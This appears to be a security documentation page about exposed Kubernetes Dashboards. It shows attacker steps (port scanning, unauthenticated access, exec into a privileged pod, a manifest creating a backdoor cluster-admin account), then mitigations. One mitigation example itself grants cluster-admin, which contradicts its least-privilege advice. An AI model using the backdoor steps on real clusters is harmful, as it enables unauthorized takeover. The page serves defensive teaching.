 ```yaml
---
sidebar_position: 3
title: Exposed Kubernetes Dashboard
description: Exploiting an exposed Kubernetes Dashboard and implementing best practices to secure dashboard access.
---
```


# Exposed Kubernetes Dashboard

The Kubernetes Dashboard is a web-based interface for managing Kubernetes clusters. However, if not properly secured, it can become a significant attack vector. An exposed dashboard with admin privileges and no authentication can allow an attacker to gain full control over the cluster.

---

## Exploitation Steps: Exposed Dashboard

An attacker can identify an open Kubernetes Dashboard by performing a port scan:

```bash
nmap -p 30000-32767 <cluster-ip>
```

### 1. Access the Dashboard Without Authentication

The attacker locates the dashboard on a NodePort and accesses it through a web browser:

```bash
http://<cluster-ip>:<node-port>/
```

### 2. Execute Commands in the Cluster

The attacker uses the dashboard's terminal to execute commands in a privileged pod:

```bash
kubectl exec -it privileged-pod -- /bin/sh
```

### 3. Create a New Admin User

The attacker creates a new admin ServiceAccount and binds it to the cluster-admin role:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: attacker-admin
  namespace: kube-system
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: attacker-admin-binding
subjects:
  - kind: ServiceAccount
    name: attacker-admin
    namespace: kube-system
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

### Result

The attacker gains admin access to the cluster, enabling them to deploy malicious workloads, exfiltrate data, or destroy resources.

---

## Mitigation Techniques and Fixes

### 1. Avoid Exposing the Dashboard Publicly

**Issue:** The dashboard is accessible without authentication over a NodePort.<br/>
**Fix:** Use a secure network proxy or port-forwarding instead.

#### Secure Access with Port Forwarding

```bash
kubectl proxy
# Access the dashboard securely
http://localhost:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/
```

### 2. Enforce Authentication

**Issue:** Lack of authentication allows unauthorized access.<br/>
**Fix:** Implement token-based authentication and disable guest access.

#### Enable Authentication via Service Account Token

```bash
kubectl create serviceaccount dashboard-admin -n kube-system
kubectl create clusterrolebinding dashboard-admin-binding \
  --clusterrole=cluster-admin \
  --serviceaccount=kube-system:dashboard-admin
kubectl get secrets -n kube-system | grep dashboard-admin
kubectl describe secret <dashboard-admin-token> -n kube-system
```

### 3. Restrict Dashboard Privileges

**Issue:** The dashboard runs with cluster-admin privileges, exposing the entire cluster to risk.<br/>
**Fix:** Limit the ServiceAccount permissions using RBAC.

#### Create a Restricted Role for the Dashboard

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: restricted-dashboard-role
  namespace: kube-system
rules:
  - apiGroups: [""]
    resources: ["pods", "services"]
    verbs: ["get", "list"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: restricted-dashboard-binding
  namespace: kube-system
subjects:
  - kind: ServiceAccount
    name: dashboard
    namespace: kube-system
roleRef:
  kind: Role
  name: restricted-dashboard-role
  apiGroup: rbac.authorization.k8s.io
```

---

## Conclusion

To secure the Kubernetes Dashboard:

- Never expose the dashboard directly to the internet.
- Always enforce authentication using Service Account tokens.
- Apply the principle of least privilege by assigning restricted roles to the dashboard.

